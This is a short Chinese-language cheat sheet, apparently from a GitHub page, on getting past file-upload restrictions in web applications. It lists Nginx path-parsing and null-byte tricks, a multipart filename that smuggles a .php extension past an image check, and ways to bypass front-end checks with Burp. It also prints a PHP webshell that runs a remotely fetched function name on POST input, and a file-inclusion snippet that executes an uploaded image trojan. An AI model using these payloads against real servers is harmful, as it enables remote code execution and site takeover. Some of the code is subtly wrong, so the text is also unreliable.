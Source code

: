 #### Nginx解析漏洞

```
解析： (任意文件名)/(任意文件名).php | (任意文件名)%00.php
描述：目前Nginx主要有这两种漏洞，一个是对任意文件名，在后面添加/任意文件名.php
的解析漏洞，比如原本文件名是test.jpg，可以添加为test.jpg/x.php进行解析攻击。
还有一种是对低版本的Nginx可以在任意文件名后面添加%00.php进行解析攻击。

```

#### 解析漏洞

```
Content-Disposition: form-data; name="file";  filename=php.php;.jpg

```

### 前端限制绕过

```
1.使用BURP抓包修改后重放
2.或者使用浏览器中元素审查，修改允许或禁止上传文件类型。

```

### 下载绕过

远程下载文件绕过

```php
<?php
$str = file_get_contents('http://127.0.0.1/ian.txt');
$str($_post['ian']);
?>

```

### 文件包含绕过

```php
上传图片木马
$x=$_GET['x'];
include($x);
访问:http://www.xxxx.com/news.php?x=xxxxxx.jpg

```

